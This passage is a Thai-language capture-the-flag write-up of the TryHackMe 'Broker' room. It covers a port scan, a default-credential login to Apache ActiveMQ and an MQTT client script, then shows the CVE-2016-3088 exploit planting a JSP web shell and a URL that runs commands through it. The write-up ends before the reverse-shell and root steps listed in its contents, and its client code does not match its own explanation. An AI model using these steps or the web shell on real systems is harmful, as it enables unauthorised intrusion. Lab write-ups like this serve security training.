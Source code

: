 ### ✨ บทนำ
Broker เป็นห้อง CTF ที่เน้นเจาะระบบ Apache ActiveMQ ซึ่งทำงานเป็น Message Broker ผู้เล่นจะต้องสแกนพอร์ต, วิเคราะห์บริการ, exploit ช่องโหว่ (CVE-2016-3088) และยกระดับสิทธิ์จนได้ root

### 🔍 เป้าหมายของโจทย์
- ทำ Port Scan หาพอร์ตที่เปิด
- ระบุ Software ที่ใช้งาน
- อ่านข้อมูลที่ซ่อนใน ActiveMQ (secret_chat)
- Exploit ActiveMQ → Reverse Shell
- ยกระดับสิทธิ์เป็น Root และดึง Flag

🧠 TryHackMe - Broker 📈

> 🟡 หมวด: Web / Privilege Escalation  
> 🧩 ความยาก: Medium  
> 🕵️‍♂️ โหมด: CTF แบบ Capture The Flag  
> 🧩 URL: [Revenge](https://tryhackme.com/room/broker)  
> 👨‍💻 ผู้ทำ: Thanyakorn

## 📚 สารบัญ

- 🛰️ 1. สแกนพอร์ต (Port Scanning)
- 🌐 2. วิเคราะห์บริการ (Service Enumeration)
- 🔐 3. เข้าสู่ระบบ ActiveMQ
- 📡 4. อ่านข้อความลับจาก MQTT
- 🚪 5. Exploit ActiveMQ (CVE-2016-3088)
- 🖥️ 6. Reverse Shell & Initial Access
- 🔼 7. Privilege Escalation → Root
- 🏁 8. เก็บ Flag

---

## 🛰️ ขั้นตอนที่ 1 : การสแกนพอร์ต (Port Scanning)

📌 โจทย์:
ให้ทำการ สแกน TCP Port ทั้งหมดที่มีหมายเลขมากกว่า 1000 และน้อยกว่า 10000 เพื่อระบุว่าพอร์ตใดบ้างที่เปิดใช้งานอยู่บนเครื่องเป้าหมาย

💻 คำสั่งที่ใช้

```bash
nmap -sS -p 1001-9999 -T5 10.10.94.190
```

![nmap](images/1.png)

🧩 อธิบายพารามิเตอร์
- ⚡ `-sS` → SYN Scan (Half-open) เร็วและ stealthy กว่าการเชื่อมต่อเต็มรูปแบบ
- 🎯 `-p 1001-9999` → กำหนดช่วงพอร์ต 1001–9999
- 🚀 `-T5` → ใช้ความเร็วสูงสุด (Aggressive timing) → สแกนไวขึ้น แต่มีโอกาสถูกตรวจจับได้
- 🌐 `10.10.94.190` → IP ของเครื่องเป้าหมาย

📊 ผลลัพธ์การสแกน
พบว่าพอร์ตที่เปิดอยู่คือ: 
| Port      | Service                       |
|-----------|-------------------------------|
| 1883/tcp | MQTT                          |
| 8161/tcp | Apache ActiveMQ Web Console   |

> 👉 จากขั้นตอนนี้ เราทราบแล้วว่าเครื่องเป้าหมายรัน MQTT บนพอร์ต 1883 และ ActiveMQ Web Console บนพอร์ต 8161 ซึ่งจะถูกใช้ในการโจมตีขั้นตอนต่อไป

## 🌐 ขั้นตอนที่ 2 : วิเคราะห์บริการ (Service Enumeration)

📌 โจทย์:
What is the name of the software they use? (ซอฟต์แวร์ที่เครื่องเป้าหมายใช้งานคืออะไร?)

🔍 การทดสอบบริการที่พบ

![test](images/2.png)

- เมื่อทดลองเข้าที่พอร์ต 1883 → ไม่สามารถเข้าผ่านเว็บเบราเซอร์ได้ เนื่องจากพอร์ตนี้ใช้สำหรับ MQTT (Message Queuing Telemetry Transport)
  - โปรโตคอลนี้มักถูกใช้ในงาน IoT (Internet of Things)
  - ไม่ใช่โปรโตคอลที่รองรับการแสดงผลผ่านเว็บโดยตรง
 
![test](images/3.png)

- เมื่อทดลองเข้าที่พอร์ต 8161 → พบหน้า Web Console ที่สามารถเข้าผ่านเบราเซอร์ได้
  - พอร์ตนี้เป็นพอร์ตมาตรฐานของ Apache ActiveMQ
  - ActiveMQ คือ Message Broker ที่ใช้จัดการ message queuing
  - มีหน้าที่ส่งและรับข้อความระหว่างแอปพลิเคชันต่าง ๆ
  - รองรับการทำงานแบบ Asynchronous Communication (ไม่ต้องรอผลลัพธ์ทันที)
  - มักถูกใช้เพื่อเชื่อมโยงและประสานงานระหว่างระบบที่แตกต่างกัน
 
> 👉 จากจุดนี้ เราทราบแล้วว่าระบบรัน ActiveMQ Web Console อยู่ที่พอร์ต 8161 ซึ่งจะเป็นกุญแจสำคัญในการเจาะระบบขั้นตอนต่อไป

## 🔐 ขั้นตอนที่ 3 : เข้าสู่ระบบ ActiveMQ

📌 โจทย์:
Which videogame are Paul and Max talking about? (พอลกับแม็กซ์กำลังพูดถึงวิดีโอเกมอะไรอยู่?)

🖥️ การเข้าถึง Web Console
- เมื่อเข้าไปที่ พอร์ต 8161 จะเห็นหน้าเว็บ Apache ActiveMQ Console
- ลองเข้าสู่ระบบด้วย credential ค่าเริ่มต้น:
  - `admin/password` → ❌ ใช้งานไม่ได้
  - `admin/admin` → ✅ สามารถล็อกอินได้สำเร็จ

![login](images/4.png)

🔎 ข้อมูลที่ค้นพบ
- หลังจากล็อกอิน พบว่า ActiveMQ Version ที่รันอยู่คือ:
  
  🧩 Apache ActiveMQ 5.9.0

> 👉 จากจุดนี้ เราสามารถเข้าถึงเมนูจัดการของ ActiveMQ ได้แล้ว และจะนำไปสู่การค้นหาข้อความที่ Paul และ Max พูดคุยกันในขั้นตอนถัดไป

## 📡 ขั้นตอนที่ 4 : อ่านข้อความลับจาก MQTT

🔎 การตรวจสอบ Topic
- หลังจากล็อกอินเข้าสู่ ActiveMQ Console
- เมื่อกดไปที่หัวข้อ Topics จะพบตารางแสดงรายการต่าง ๆ

![topic](images/5.png)

- มี Topic ที่น่าสนใจชื่อว่า `secret_chat` ซึ่งมีข้อความถูก queue อยู่ประมาณ 64 ข้อความ
- นี่น่าจะเป็นแหล่งข้อมูลการสนทนาของ Paul และ Max

💻 การเขียน Client เพื่อ Subscribe ข้อความ
เพื่ออ่านข้อความใน `secret_chat` เราต้องเขียน MQTT client ขึ้นมา:
1. สร้างไฟล์ชื่อ `client.py`
2. วางโค้ดด้านล่างนี้ลงไป

```bash
import paho.mqtt.client as mqtt

# The callback for when the client receives a CONNACK response from the server.
def on_connect(client, userdata, flags, rc):
    print("Connected with result code " + str(rc))
    # Subscribing in on_connect() means that if we lose the connection and
    # reconnect then subscriptions will be renewed.
    client.subscribe("$SYS/#")

# The callback for when a PUBLISH message is received from the server.
def on_message(client, userdata, msg):
    print(msg.topic + " " + str(msg.payload))

client = mqtt.Client(protocol=mqtt.MQTTv31)
client.on_connect = on_connect
client.on_message = on_message

client.connect("tun0", 1883, 60)

client.loop_forever()
```

![code](images/6.png)

📝 คำอธิบายโค้ด
- 📡 `on_connect` → เชื่อมต่อกับ MQTT broker และ subscribe ไปยัง topic secret_chat
- 📩 `on_message` → ฟังก์ชันสำหรับรับข้อความและพิมพ์ผลออกมา
- ⚙️ ใช้ โปรโตคอล MQTT v3.1 (MQTTv31) และพอร์ตมาตรฐาน 1883
- 🌐 `client.connect("10.10.94.190", 1883, 60)` → เปลี่ยน IP เป็น VPN tun0 ของคุณเองใน TryHackMe

โค้ดนี้นำมาจาก [Eclipse Paho MQTT Python Client](https://github.com/eclipse-paho/paho.mqtt.python#getting-started) ซึ่งเป็นไลบรารีมาตรฐานสำหรับเขียน MQTT Client


**รัน `client.py` ด้วย `python3 client.py` เพื่อ subscribe topic `secret_chat` บน broker (พอร์ต 1883)**

รันสคริปต์ด้วย:
```bash
python3 client.py
```

![python3](images/7.png)

📤 ผลลัพธ์:

✅ เมื่อเชื่อมต่อสำเร็จ จะแสดง `Connected with result code 0`

## 🚪 5. Exploit ActiveMQ (CVE-2016-3088) — Put shell

> ใช้ช่องโหว่ CVE-2016-3088 ใน Apache ActiveMQ เพื่ออัปโหลดไฟล์ “shell” ลงไปยังเครื่องเป้าหมาย (put shell) ผ่าน Web Console — เมื่อสำเร็จจะได้ข้อความยืนยันว่า `Bygshell` → แปลว่า shell ถูกวาง/เปิดสำเร็จบน target

**📥 เตรียมไฟล์ exploit**
โค้ด exploit ที่ใช้: `ActiveMQ_putshell.py`
แหล่งที่มาตัวอย่าง: [ActiveMQ_putshell-CVE-2016-3088](https://github.com/Ma1Dong/ActiveMQ_putshell-CVE-2016-3088)

ขั้นตอน:
```bash
# 1) ดาวน์โหลด exploit (ตัวอย่าง)
git clone https://github.com/Ma1Dong/ActiveMQ_putshell-CVE-2016-3088.git
cd ActiveMQ_putshell-CVE-2016-3088

# 2) ตรวจสอบไฟล์ (เช่น ActiveMQ_putshell.py)
ls -la

# 3) รัน exploit เพื่อ put shell ไปยัง ActiveMQ Web Console
python3 ActiveMQ_putshell.py -u http://10.10.94.190:8161
```

![python3](images/8.png)

- เมื่อรันสำเร็จ สคริปต์จะแสดง path/URL ของไฟล์ที่อัพโหลด

🔗 เรียกใช้งานผ่าน Web Console (query string)
หลังจากได้ URL ของ JSP แล้ว เราสามารถส่งคำสั่งผ่าน query string ได้ ตัวอย่างพารามิเตอร์ที่ใช้:
- `pwd=gshell` — พารามิเตอร์ยืนยันการเรียกใช้งาน 🔐
- `shell=<คำสั่ง>` — คำสั่งที่จะให้เซิร์ฟเวอร์รัน 🧩

ตัวอย่างส่ง `uname -a`:
```bash
http://10.10.94.190:8161/admin/guo.jsp?pwd=gshell&shell=uname -a
```

![Web-Console](images/9.png)

ผลลัพธ์จะแสดงข้อมูล uname -a ของเซิร์ฟเวอร์ (kernel version, architecture, OS ฯลฯ) — ยืนยันการรันคำสั่งได้ 🔍



















































